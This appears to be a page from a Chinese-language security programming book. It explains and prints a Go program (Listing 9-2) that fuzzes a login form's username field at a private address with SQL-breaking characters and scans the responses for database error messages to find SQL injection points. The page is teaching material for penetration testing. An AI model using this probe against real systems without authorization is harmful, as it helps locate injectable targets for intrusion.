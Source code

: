 登录表单向*http://10.0.1.20:8080/WebApplication/login.jsp*发送 POST 请求。表单有两个参数：`username`和`password`。为了简洁起见，这里我们仅对`username`字段进行模糊测试。代码本身非常简洁，包含了一些循环、正则表达式以及 HTTP 请求的创建。代码展示在 Listing 9-2 中。

```
func main() {
 ❶ payloads := []string{
        "baseline",
        ")",
        "(",
        "\"",
        "'",
    }  

 ❷ sqlErrors := []string{
        "SQL",
        "MySQL",
        "ORA-",
        "syntax",
    }  

    errRegexes := []*regexp.Regexp{}
    for _, e := range sqlErrors {
     ❸ re := regexp.MustCompile(fmt.Sprintf(".*%s.*", e))
        errRegexes = append(errRegexes, re)
    }  

 ❹ for _, payload := range payloads {
        client := new(http.Client)
    ❺ body := []byte(fmt.Sprintf("username=%s&password=p", payload))
    ❻ req, err := http.NewRequest(
           "POST",
           "http://10.0.1.20:8080/WebApplication/login.jsp",
           bytes.NewReader(body),
        )  
        if err != nil {
            log.Fatalf("[!] Unable to generate request: %s\n", err)
        }  
        req.Header.Add("Content-Type", "application/x-www-form-urlencoded")
        resp, err := client.Do(req)
        if err != nil {
            log.Fatalf("[!] Unable to process response: %s\n", err)
        }  
 ❼ body, err = ioutil.ReadAll(resp.Body)
        if err != nil {
            log.Fatalf("[!] Unable to read response body: %s\n", err)
        }  
        resp.Body.Close()

     ❽ for idx, re := range errRegexes {
         ❾ if re.MatchString(string(body)) {
                fmt.Printf(
                    "[+] SQL Error found ('%s') for payload: %s\n",
                    sqlErrors[idx],
                    payload,
                )
                break
            }  
        }  
    }  
}
```
